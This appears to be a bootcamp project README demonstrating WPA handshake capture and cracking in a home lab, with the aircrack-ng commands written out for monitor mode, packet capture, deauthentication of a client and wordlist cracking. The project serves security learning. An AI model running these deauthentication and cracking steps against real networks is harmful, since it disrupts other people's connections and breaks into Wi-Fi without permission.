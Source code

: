 # Cybersecurity-Bootcamp-Final-Project

# [Video Demonstration](https://www.youtube.com/?bp=wgUCEAE%3D)
**BootCon 2023 Project 4 demonstration of capturing and cracking WPA Handshakes**

## Tools Used

* [Aircrack-ng Suite Of Tools](https://www.aircrack-ng.org/)
* [Raspberry Pi 4](https://www.raspberrypi.com/products/raspberry-pi-4-model-b/specifications/)
* [Wemos D1 Mini](https://www.wemos.cc/en/latest/d1/d1_mini.html)
* [NodeMCU](https://nodemcu.readthedocs.io/en/release/)
* [Kali Linux](https://www.kali.org/docs/arm/raspberry-pi-4/)
* [Tasmota](https://tasmota.github.io/docs/)
* [ESP8266 Deauther](https://deauther.com/docs/about/)

## Overview
## What is the 4-way handshake?
The handshake is a term that includes the first four messages of the encryption connection process 
between the client that wants the WI-FI and the AP that provide it.

I won’t be going into details on setting up the attack and victim machine as this is out of the scope of this presentation.
The attack machine is a raspberry pi 4b with kali linux installed 

### Aircrack-ng is a complete suite of tools to assess WiFi network security that focuses on different areas of WIFI security like:
* Monitoring: Packet capture and export of data to text files for further processing by third party tools.
* Attacking: Replay attacks, deauthentication, fake access points and others via packet injection.
* Testing: Checking WiFi cards and driver capabilities. 
* Cracking: WEP and WPA PSK (WPA 1 and 2).

The Victim’s machine has Tasmota, an open source firmware for ESP devices. It allows for total local control using MQTT, Web UI, HTTP or Serial. <br/>
I’m using for this demo a Wemos D1 Mini which has the esp8266 chip.<br/>
Deauther = Nodemcu 12p with the ESP8266 Wifi deauther firmware install.<br/> 
This does the same thing as Aireplay-ng and sends deauthentication packets to the victim's machine.
<br/>
<br/>

<p align="center">
Disclaimer: <br/>
<img src="Images/Warning.png" height="80%" width="80%" alt="Disclaimer"/>
<br />
<br />
<p align="center">  
Topology: <br/>
<img src="Images/Topology.png" height="80%" width="80%" alt="Topology"/>
<img src="Images/Topology2.png" height="80%" width="80%" alt="Topology"/>
<p align="center">  
Captured Traffic: <br/>  
<img src="Images/Wireshark.png" height="80%" width="80%" alt="Wireshark"/>  
<p/>
<br />
<br />

## Commands
1. To put the wireless interface into monitoring mode we use the command.
 
        sudo airmon-ng start wlan0
        
2. Next, we’ll dump the wireless traffic and write to a file with.
 
        sudo airodump-ng -channel # -w handshake-capture wlan0mon  
        
3. Use the ESP8266 WiFi-Deauther to send deauther messages or use.

        sudo aireplay-ng –deauth 0 -a AP mac address -c victim’s mac address wla0mon
        
4. Crack captured handshake with.

        sudo aircrack-ng ~/handshake-capture.cap -w /usr/share/wordlist/fasttrack.txt                                                                        
                                                                        
                                                                        
                                                                        
                                                                 
